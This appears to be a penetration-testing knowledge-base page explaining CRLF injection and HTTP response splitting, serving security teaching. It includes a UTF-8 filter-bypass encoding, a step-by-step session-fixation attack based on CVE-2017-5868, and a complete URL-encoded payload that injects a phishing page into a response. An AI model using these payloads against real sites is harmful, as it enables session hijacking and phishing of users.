 # 🛠️ CRLF injection

## Theory

CRLF represents termination of line:

* CR = Carriage Return \(`\r`\)
* LF = Line Feed \(`\n`\)

Windows and the protocol HTTP uses the CRLF however, Linux doesn't \(it only uses LF\). The CRLF injection is a type of attack where an attacker injects a termination of line into an application \(via HTTP or URL\) to provoke other types of vulnerability \(HTTP Response Splitting, Log Injection...\).

## Practice

### HTTP Response Splitting

#### **Reconnaissance**

**Important**: before even considering a CRLF injection, testers have to find **any data that is sent in a request and reflected in the response** \(that follows the previous request\).   
An example by [SecureFlag](https://knowledge-base.secureflag.com/vulnerabilities/inadequate_input_validation/http_response_splitting_vulnerability.html) considers an application that in case of error `(/?error=Page+Not+found`\), redirects the user using the `Location` HTTP header while reflecting the value of the `error` parameter:

```bash
# Response (due to an application error)
HTTP/1.1 301 Moved Permanently
Location: /index?error=Page+Not+Found
```

From cases similar to this one, testers have to find a place where CRLF injection is possible, such as:

* URL: `https://example.com/<CRLF_injection>`
* Query parameter: `https://example.com/lang=en<CRFL_injection>`

Upon using a CRLF injection, testers can inject arbitrary HTTP headers.

**Filter bypass**: one can [bypass filters](https://blog.innerht.ml/twitter-crlf-injection/) using UTF-8 encoding

* CRLF = %E5%98%8A%E5%98%8D

#### Session fixation

A good example of session fixation \(with CRLF injection\) comes from the CVE-2017-5868 and is explained in this [post](https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/).

1. An attacker notice that the parameter `__session_start` in OpenVPN is vulnerable to CRLF injection.
2. The attacker crafts an URL by setting a cookie:

   ```text
   https://example.com/__session_start__/<CRLF_injection>Set-Cookie:<Cookie>[...]
   ```

3. The attacker sends this crafted URL to a victim.
4. The victim opens the URL and authenticates itself. Once authenticated, the cookie will be associated with its session.
5. The attacker can now use the cookie with the fixed session to access the victim's profile.

#### Cross-Site Scripting \(XSS\)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection) has an interesting payload to write a document, and therefore include an XSS.

Requested page:

```text
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP response:

```text
Set-Cookie:en
Content-Length: 0
​
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34
​
<html>You have been Phished</html>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/crlf-injection/" %}

{% embed url="https://www.netsparker.com/blog/web-security/crlf-http-header/" %}

{% embed url="https://owasp.org/www-community/vulnerabilities/CRLF\_Injection" %}

{% embed url="https://www.srccodes.com/log-forging-by-crlf-log-injection-owasp-security-vulnerability-attacks-crlf//" %}

{% embed url="https://sysdream.com/news/lab/2017-05-05-cve-2017-5868-openvpn-access-server-crlf-injection-with-session-fixation/" %}

{% embed url="https://knowledge-base.secureflag.com/vulnerabilities/inadequate\_input\_validation/http\_response\_splitting\_vulnerability.html" %}

{% embed url="https://blog.innerht.ml/overflow-trilogy/" %}

{% embed url="https://blog.innerht.ml/twitter-crlf-injection/" %}

{% embed url="https://www.geeksforgeeks.org/crlf-injection-attack/" %}

